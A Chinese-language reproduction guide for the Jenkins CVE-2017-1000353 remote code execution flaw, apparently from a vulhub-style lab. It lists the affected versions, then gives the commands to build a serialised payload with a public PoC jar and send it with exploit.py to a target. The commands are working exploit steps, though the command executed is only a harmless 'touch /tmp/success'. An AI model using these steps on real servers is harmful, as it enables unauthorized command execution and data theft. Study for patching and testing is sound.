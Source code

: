 # （CVE-2017-1000353）Jenkins-CI 远程代码执行漏洞

## 一、漏洞简介

该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

### 二、漏洞影响

* 所有Jenkins主版本均受到影响(包括<=2.56版本)
* 所有Jenkins LTS 均受到影响( 包括<=2.46.1版本)

三、复现过程

步骤一、生成序列化字符串

参考https://github.com/ianxtianxt/CVE-2017-1000353，首先下载CVE-2017-1000353-1.1-SNAPSHOT-all.jar，这是生成POC的工具。

执行下面命令，生成字节码文件：


```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。

**步骤二、发送数据包，执行命令**

下载exploit.py，python3执行python exploit.py http://www.0-sec.org:8080 jenkins_poc.ser，将刚才生成的字节码文件发送给目标：

![](images/15899559190524.jpg)


进入docker，发现/tmp/success成功被创建，说明命令执行漏洞利用成功：

![](images/15899559264214.jpg)


#### 参考链接

https://vulhub.org/#/environments/jenkins/CVE-2017-1000353/